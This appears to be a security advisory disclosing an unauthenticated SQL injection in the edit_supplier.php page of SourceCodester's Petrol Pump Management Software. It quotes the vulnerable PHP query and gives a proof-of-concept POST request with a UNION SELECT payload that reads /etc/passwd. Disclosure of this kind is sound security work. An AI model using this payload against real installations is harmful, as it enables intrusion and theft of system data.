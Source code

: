 # SOURCECODESTER / Petrol pump management software - edit_supplier.php Unauthenticated SQL Injection

## **Credits**
> Joshua Lictan (https://github.com/skid-nochizplz/skid-nochizplz)<br/>
> Russel James Avenido (https://github.com/lucishtml/lucishtml)<br/>

## Vendor Homepage:
> https://www.sourcecodester.com/php/17180/petrol-pump-management-software-free-download.html

## Affected Component
> /admin/edit_supplier.php

## Code
```php
  $stmt = $conn->prepare("SELECT * FROM `supplier` WHERE id='" . $_POST['id'] . "' ");
                                    $stmt->execute();
                                    $record = $stmt->fetchAll();
```

## Proof of Concept
**HTTP Request Example**
``` http request
POST /admin/edit_supplier.php HTTP/1.1
Host: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 67

id=1'+UNION+SELECT+1,load_file('/etc/passwd'),3,4,version(),6,7--+-
```

## Screenshot
![image](https://github.com/skid-nochizplz/skid-nochizplz/assets/160950031/9b8fd8bf-9f6c-4a4b-acb5-6f962ba5b6cb)
